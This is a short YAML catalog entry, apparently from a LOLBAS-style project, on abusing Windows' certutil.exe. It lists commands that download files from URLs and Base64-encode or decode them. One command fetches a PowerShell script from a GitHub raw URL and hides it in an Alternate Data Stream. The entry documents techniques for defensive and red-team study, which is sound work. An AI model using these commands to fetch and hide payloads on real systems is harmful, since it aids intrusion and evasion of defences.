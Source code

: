 ---
Name: Certutil.exe
Description: Download, Add ADS, Decode, Encode
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
  - Command: |
          certutil -encode inputFileName encodedOutputFileName
          certutil -decode encodedInputFileName decodedOutputFileName
    Description: Commands to encode and decode a file using Base64.
Full Path:
  - c:\windows\system32\certutil.exe
  - c:\windows\sysWOW64\certutil.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Moriarty_Meng/status/984380793383370752
  - https://twitter.com/mattifestation/status/620107926288515072
Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016

